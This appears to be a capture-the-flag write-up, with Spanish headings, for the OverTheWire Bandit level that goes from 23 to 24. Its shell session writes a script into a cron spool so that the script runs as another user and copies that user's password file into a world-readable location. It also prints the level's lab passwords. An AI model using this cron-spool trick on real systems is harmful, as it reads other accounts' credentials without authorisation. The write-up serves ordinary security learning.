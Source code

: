 ## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…
## Datos de acceso al nivel 
bandit23
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
## Solución 
```bash
bandit23@bandit:~$ mkdir /tmp/ikeg01
bandit23@bandit:~$ cd /tmp/ikeg01
bandit23@bandit:/tmp/ikeg01$ nano ikegscript.sh
Unable to create directory /home/bandit23/.local/share/nano/: No such file or directory
It is required for saving/loading search history or cursor positions.

bandit23@bandit:/tmp/ikeg01$ cat ikegscript.sh
cat /etc/bandit_pass/bandit24 > /tmp/ikeg01/password
bandit23@bandit:/tmp/ikeg01$ chmod 777 ikegscript.sh
bandit23@bandit:/tmp/ikeg01$ touch password
bandit23@bandit:/tmp/ikeg01$ chmod 666 password
bandit23@bandit:/tmp/ikeg01$ ls -la
total 112
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 28 18:33 .
drwxrwx-wt 3010 root     root     106496 Feb 28 18:33 ..
-rwxrwxrwx    1 bandit23 bandit23     53 Feb 28 18:31 ikegscript.sh
-rw-rw-rw-    1 bandit23 bandit23      0 Feb 28 18:33 password
bandit23@bandit:/tmp/ikeg01$ cp ikegscript.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/ikeg01$ ls -la
total 116
drwxrwxr-x    2 bandit23 bandit23   4096 Feb 28 18:33 .
drwxrwx-wt 3010 root     root     106496 Feb 28 18:36 ..
-rwxrwxrwx    1 bandit23 bandit23     53 Feb 28 18:31 ikegscript.sh
-rw-rw-rw-    1 bandit23 bandit23     33 Feb 28 18:36 password
bandit23@bandit:/tmp/ikeg01$ cat password
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
bandit23@bandit:/tmp/ikeg01$
```
## Notas adicionales 

## Referencias

